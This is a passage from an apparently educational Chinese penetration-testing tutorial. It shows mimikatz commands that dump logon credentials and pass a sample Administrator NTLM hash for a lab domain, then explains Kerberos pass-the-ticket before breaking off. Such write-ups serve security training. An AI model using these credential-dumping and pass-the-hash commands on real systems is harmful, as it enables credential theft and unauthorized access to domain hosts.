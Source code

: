     privilege::debug  
    sekurlsa::logonpasswords  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001658.png)

    
    
    # Hash  
      
    user:Administrator  
    domain:GOD  
    ntlm:8a963371a63944419ec1adf687bb1be5  
      
    sekurlsa::pth /user:Administrator /domain:GOD /ntlm:8a963371a63944419ec1adf687bb1be5  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001708.png)

可以看到NTML Hash已经对GOD使用，这样的话访问远程主机或服务，就不需要再提供明文密码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001709.png)

除了mimikatz这个工具还有 **wmiexe** ， **CrackMapExec** 等工具，等你去发掘！

## 0x03 Pass The Ticket

票据传递攻击（PTT）是一种使用Kerberos票据代替明文密码或NTLM哈希的方法。PtT最常见的用途可能是使用黄金票据和白银票据，通过PtT访问主机相当简单。

    
    
    # Kerberos身份验证流程:  
    https://www.cnblogs.com/zpchcbd/p/11707302.html  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001711.png)

    
    
    kerberos原理：  
      打个比方：就好比A需要进入公司办公处，首先需要去门卫处验证是否是这个公司的人(也就是通过AS的认证)；然后通过门卫确认后，拿着门卫的凭证(也就是我们所需要TGT)去办公处里面，这时候我们如果需要去领导办公室查询资料(就是访问Sever)，那么就需要通过办公处的前台去登记，让前台确认我们是否有去查询的资格，当确认我们有资格后会给予凭证(就是ST)，我们就可以拿着这个凭证去领导办公室查询资料了。  
      
    借用我们上面的比方：来带入我们kerberos中：  
      
        * 首先 Client 向域控制器 DC 请求访问 Server，DC 通过去 AD 活动目录中查找依次区分 Client 来判断 Client 是否可信；  
        * 认证通过后返回 TGT 给 Client，Client 得到 TGT（Ticket GrantingTicket）；  
        * Client 继续拿着 TGT 请求 DC 访问 Server，TGS 通过 Client 消息中的 TGT，判断 Client 是否有访问权限；  
        * 如果有，则给 Client 有访问 Server 的权限 Ticket，也叫 ST（ServiceTicket）；  
        * Client 得到 Ticket 后，再去访问 Server，且该 Ticket 只针对这一个 Server有效；  
        * 最终 Server 和 Client 建立通信。  
          
    摘自:https://blog.csdn.net/nicai321/article/details/122614894  
    

#### 票据传递攻击：

